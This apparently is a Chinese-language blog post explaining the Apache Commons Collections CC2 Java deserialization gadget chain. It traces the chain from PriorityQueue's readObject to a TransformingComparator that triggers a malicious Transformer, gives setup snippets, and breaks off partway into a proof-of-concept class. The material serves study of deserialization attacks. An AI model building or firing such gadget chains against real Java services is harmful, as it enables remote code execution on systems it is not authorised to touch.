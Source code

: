 ```yaml
---
title: "无数组TransformingComparator CC2"
onlyTitle: true
date: 2022-10-23 13:05:36
categories:
- java
- CC
tags:
- CC
- shiroCommonBeanutils
img: https://typora-202017030217.oss-cn-beijing.aliyuncs.com/%E5%9B%BE%E7%89%87%E7%B4%A0%E6%9D%90/1080P%20A%20%E6%94%B6%E8%97%8F%E9%87%8F%E6%9C%80%E5%A4%9A/1080PA%E5%A3%81%E7%BA%B861.jpg
---
```


# java_PriorityQueue

`java.util.PriorityQueue `是一个优先队列（Queue），节点之间按照优先级大小排序成一棵树。其中PriorityQueue有自己的readObject反序列化入口。

反序列化链为：`PriorityQueue#readObject`->`heapify()`->`siftDown()`->`siftDownUsingComparator()`->`comparator.compare()`。当comparator为TransformingComparator对象时，能触发transform()方法：

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221206160559047.png)

至于PriorityQueue的`heapify()、siftDown()、siftDownUsingComparator()`的用处就是恢复排序、节点下移和比较元素大小。而Comparator则是定义了两个对象用什么方式比较

## CC2TransformingComparator

结合CC2的利用方式，就是向TransformingComparator传入恶意Transformer。

```java
Comparator comparator = new TransformingComparator(transformerChain);
```

再用priorityQueue触发comparator:

```java
PriorityQueue queue = new PriorityQueue(2, comparator);
queue.add(1);
queue.add(2);
```

可以add任何非null对象，因为触发transform与队列参数无关（比较的是1,2，比较方式为comparator.compare()）

* POC：

```java
package org.example;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Comparator;
import java.util.PriorityQueue;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
public class CC2TransformingComparator {
    public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
```